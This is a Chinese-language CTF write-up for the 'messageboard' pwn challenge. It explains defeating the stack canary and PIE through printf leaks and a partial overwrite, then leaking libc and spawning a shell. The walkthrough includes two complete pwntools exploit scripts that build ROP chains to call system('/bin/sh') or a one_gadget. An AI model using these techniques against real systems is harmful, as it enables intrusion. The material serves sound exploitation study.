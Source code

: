 ### messageboard

### 考点

- Canary绕过原理
- PIE绕过原理
- 对gdb调试器的使用

### 解题过程

- 使用`checksec`进行检查：![checksec](/img/posts/2023-10-23-messageboard/images/checksec.png)

![file](/img/posts/2023-10-23-messageboard/images/file.png)

​		可知程序为64位，有DEP、ASLR、Canary、PIE等保护。`Canary`是一种栈溢出保护手段，会在栈中压入随机值，如果进行栈溢出攻击，会导致随机值改变，导致验证失败，从而程序不会执行。`PIE(position-independent executable, 地址无关可执行文件)`技术就是一个针对代码段.text, 数据段.*data，.bss等固定地址的一个防护技术。同ASLR一样，应用了PIE的程序会在每次加载时都变换加载基址，从而使位于程序本身的gadget也失效。

- 使用`ldd`命令查看程序的依赖库libc和ld：

![ldd](/img/posts/2023-10-23-messageboard/images/ldd.png)

​		使用`patchelf`进行修改：

```shell
patchelf --replace-needed libc.so.6 ./libc-2.31.so ./message_board
```

```shell
patchelf --set-interpreter ~/Documents/tools/glibc-all-in-one/libs/2.31-0ubuntu9.12_amd64/ld-2.31.so ./message_board
```

![ldd-1](/img/posts/2023-10-23-messageboard/images/ldd-1.png)

- 构造python脚本，进行调试，查看程序vmmap以及stack的情况：

`vmmap`：后3位均为0，前几位每次调试都会发生变化

![vmmap](/img/posts/2023-10-23-messageboard/images/vmmap.png)

![vmmap-1](/img/posts/2023-10-23-messageboard/images/vmmap-1.png)

`stack`：其中有随机值`"0x7e9818f231b8c000"`和`"0xf0297d8f04ed1000"`

![stack](/img/posts/2023-10-23-messageboard/images/stack.png)

![stack-1](/img/posts/2023-10-23-messageboard/images/stack-1.png)

- 使用ida工具打开程序，逆向分析，在`sub_11C9`函数位置有`getchar`函数，只有输入回车符时才会结束输入，存在栈溢出漏洞：

![sub_11C9](/img/posts/2023-10-23-messageboard/images/sub_11C9.png)

- 由于`sub_11FF`函数中的`printf`函数`%s`参数仅在字符串结尾为`\x00`字符时才会停止输出，因此可以尝试在此处泄漏`canary`和`libc`的地址。

![sub_11FF](/img/posts/2023-10-23-messageboard/images/sub_11FF.png)

- 构造脚本，主要思路（五次栈溢出）：首先通过printf函数的输出特性泄漏`Canary`值，然后在第二次调用`sub_11C9`函数时，通过覆盖部分地址使程序本应执行到`0x1310`转而执行`0x130b`（通过覆盖最后一字节实现），如下图所示：

![partial write](/img/posts/2023-10-23-messageboard/images/partial write.png)

​		然后程序重新进入漏洞函数，通过栈溢出覆盖截断字符`\x00`使`printf`函数输出程序基址。如下图所示，通过计算偏移可以得到程序基址：

![程序基址](/img/posts/2023-10-23-messageboard/images/程序基址.png)

​		然后继续到第二个`sub_11c9`函数，根据`got`表获取到libc基址，最后根据libc基址以及`one_gadget`工具可以得到结果shell：

`python脚本如下`:

```python
from pwn import *

p = process('./message_board')

# 获取canary
payload = flat(b'a'*(0x20+8+1))
gdb.attach(p, 'b *$rebase(0x11FD)')
p.sendlineafter(b"What 's your name?\n", payload)
p.recvuntil(payload)
puts_canary_libc = p.recv(7)

canary = u64(puts_canary_libc.rjust(8, b'\x00'))
success(hex(canary))


# Parital Write， 重新跳转到漏洞函数
main_addr_offset = b'\x0B'
p.recvuntil(b'What do you want to say?\n')

payload = flat(b'b'*(0x20+8), p64(canary), p64(0), main_addr_offset)
p.sendline(payload)

# 获取程序基址
payload = flat(b'c'*(0x20+8+8+8))
p.sendlineafter(b"What 's your name?\n", payload)
p.recvuntil(payload)
mov_eax_addr = u64(p.recv(6).ljust(8, b'\x00'))
base_addr = mov_eax_addr - 0x1310

success(hex(base_addr))

# 获取libc基址
pop_rdi = base_addr + 0x1383
retn = base_addr + 0x12A8
elf = ELF('./message_board')
puts_plt = elf.plt['puts'] + base_addr
puts_got = elf.got['puts'] + base_addr

libc = ELF('./libc-2.31.so')
libc_puts_offset = libc.symbols['puts']  # 0x84420
libc_system_offset = libc.symbols['system']  # 0x52290
sub_11ff_addr = base_addr + 0x130B
payload = flat(b'd'*(0x20+8), p64(canary), p64(0), p64(retn), p64(pop_rdi), p64(puts_got), p64(puts_plt), p64(sub_11ff_addr))
p.sendlineafter(b'What do you want to say?\n', payload)
p.recvuntil(b"Thanks!\n")
puts_libc = p.recv(6)
puts_libc = u64(puts_libc.ljust(8, b'\x00'))
libc_base = puts_libc - libc_puts_offset
success(hex(libc_base))

# # one_gadget
# one_gadget = libc_base + 0xe3b01
# payload = flat(b'e'*(0x20+8), p64(canary), p64(0x0), p64(one_gadget))
# gdb.attach(p, 'b *$rebase(0x11FD)')
# p.sendlineafter(b"What 's your name?\n", payload)

# system函数
bin_sh_addr = libc_base + 0x1b45bd
system_addr = libc_base + libc_system_offset
payload = flat(b'f'*(0x20+8), p64(canary), p64(0), p64(retn), p64(pop_rdi), p64(bin_sh_addr), p64(system_addr))
p.sendlineafter(b"What 's your name?\n", payload)
p.sendlineafter(b'What do you want to say?\n', b'FFF')
# p.recvuntil(b"Thanks!\n")

p.interactive()
```

注：需要注意在进行代码的注入时，需要考虑栈帧对齐的问题，eg: `payload = flat(b'f'*(0x20+8), p64(canary), p64(0), p64(pop_rdi), p64(bin_sh_addr)`中`p64(0)`为赋给`rbp`寄存器的值，`p64(retn)`为将`pop rdi`进行栈对齐所需添加的占位值。

- 构造脚本，主要思路（四次栈溢出）：前两次栈溢出与前一种情况相同；

​		然后程序会再次执行漏洞函数，通过栈溢出覆盖截断字符`\x00`使得`printf`函数输出libc的基址。如下图所示，通过计算偏移可以得到libc的基址

![libc_base](/img/posts/2023-10-23-messageboard/images/libc_base.png)

​		然后继续到第二个`sub_11c9`函数，根据libc基址以及`one_gadget`工具可以得到结果shell：

`python脚本如下`:

```python
from pwn import *

p = process('./message_board')

# 获取canary
payload = flat(b'a'*(0x20+8+1))
gdb.attach(p, 'b *$rebase(0x11FD)')
p.sendlineafter(b"What 's your name?\n", payload)
p.recvuntil(payload)
puts_canary_libc = p.recv(7)

canary = u64(puts_canary_libc.rjust(8, b'\x00'))
success(hex(canary))


# Parital Write， 重新跳转到漏洞函数
main_addr_offset = b'\x0B'
p.recvuntil(b'What do you want to say?\n')

payload = flat(b'b'*(0x20+8), p64(canary), p64(0), main_addr_offset)
p.sendline(payload)

# 获取libc基址
libc = ELF('./libc-2.31.so')
payload = flat(b'c'*(0x20+8+8+8+16))
p.sendlineafter(b"What 's your name?\n", payload)
p.recvuntil(payload)

mov_edi_addr = p.recv(6)
print(mov_edi_addr)
mov_edi_addr = u64(mov_edi_addr.ljust(8, b'\x00'))
print(hex(mov_edi_addr))
libc_base = mov_edi_addr - 0x24083

success(hex(libc_base))

one_gadget = libc_base + 0xe3b01

payload = flat(b'e'*(0x20+8), p64(canary), p64(0x0), p64(one_gadget))
p.sendlineafter(b'What do you want to say?\n', payload)



p.interactive()
```



### 结果

![result](/img/posts/2023-10-23-messageboard/images/result.png)
